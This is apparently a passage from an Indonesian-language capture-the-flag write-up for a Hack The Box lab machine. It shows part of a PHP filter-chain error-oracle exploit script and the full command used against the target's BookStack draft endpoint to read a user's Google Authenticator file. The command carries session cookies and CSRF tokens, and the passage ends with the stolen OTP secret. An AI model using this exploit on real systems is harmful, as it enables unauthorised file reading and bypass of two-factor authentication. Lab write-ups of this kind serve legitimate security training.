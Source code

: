 ```
                    requ = self.session.delete(self.target, json=merged_data)
                else:
                    requ = self.session.delete(self.target, data=merged_data)
                return requ
            elif self.verb == Verb.POST:
                if self.json_input:
                    requ = self.session.post(self.target, json=merged_data)
                else:
                    requ = self.session.post(self.target, data=merged_data)
                return requ
        except requests.exceptions.ConnectionError :
            print("[-] Could not instantiate a connection")
            exit(1)
        return None

    """
    Used to determine if the answer trigged the error based oracle
    TODO : increase the efficiency of the time based oracle
    """
    def error_oracle(self, s):
        requ = self.req_with_response(s)

        if self.match:
            # DEBUG print("PATT", (self.match in requ.text))
            return self.match in requ.text 

        if self.time_based_attack:
            # DEBUG print("ELAP", requ.elapsed.total_seconds() > ((self.time_based_attack/2)+0.01))
            return requ.elapsed.total_seconds() > ((self.time_based_attack/2)+0.01)
        
        # DEBUG print("CODE", requ.status_code == 500)
        return requ.status_code == 500

```
jalankan exploit untuk mendapatkan secret OTP

```
python3 filters_chain_oracle_exploit.py --target "http://checker.htb/ajax/page/18/save-draft" --file "/backup/home_backup/home/reader/.google_authenticator" --parameter "html" --verb PUT --headers "{\"X-CSRF-TOKEN\": \"uA9DDjtgWvPTB94cZeZcfCAAQDaDPqFFIzNJdf2h\", \"Content-Type\": \"application/x-www-form-urlencoded\", \"Cookie\": \"jstree_select=1; teampass_session=n80skn551jqlokvpqj6i50cjar; bookstack_session=eyJpdiI6IjRqWmx6N3pOcFRwT04xTE50bXFVVGc9PSIsInZhbHVlIjoiV003NVIzTVpLYlhZSWorWE0zSXlhMmVvbEJEVVZHL05EcGNGTTBDOFV0NVVVQ0JRdnRyS1VPblFBZkgvU3VheGdJbVFlcytjUEZyQkhKZDFxYmMwdXUvL3pvMzZCZWFGWWNNVjdQL1lmRFd2cU93STBHV1VYdC93VnRZR3lQTC8iLCJtYWMiOiI1NmI2Y2M5MGRlMjU2NmMzZGQ0Y2JhMWY4ZmRjMGFlM2YxMTVjYTgyYTBjYmU2ZDRmYjczMWI4YTg5OTNhMzYxIiwidGFnIjoiIn0%3D; XSRF-TOKEN=eyJpdiI6ImhBMUlVREhTRTl6bVJTZDNrU1A0amc9PSIsInZhbHVlIjoiTGFOeS9mVlJtN3BLcm9Fbjh1SlhtY1RXSnJubGtrc3FJczdFY01aTXNTUCtLQlRvWUR4TWlURVdCRkw2aTlIbkRDaFR4bzJJaW9UTUFXSDdZNkNkcjcrTGhSVEU5QnpJWkZtdGJoMkVucWhHVW5UV2xHRTZUeW40VFAzeEJiQ3AiLCJtYWMiOiIwYzQwYmY2MzQzOTk3YjQzNmU3Yjc0YmYzNjVhMGM4NmUyMjJhMjFiOGM5NzM3MjU2ZGY0NTM0MTEzZjNkZDVmIiwidGFnIjoiIn0%3D\"}"
```
Dapat secret -> DVDBRAODLCWF7I2ONA4K5LQLUE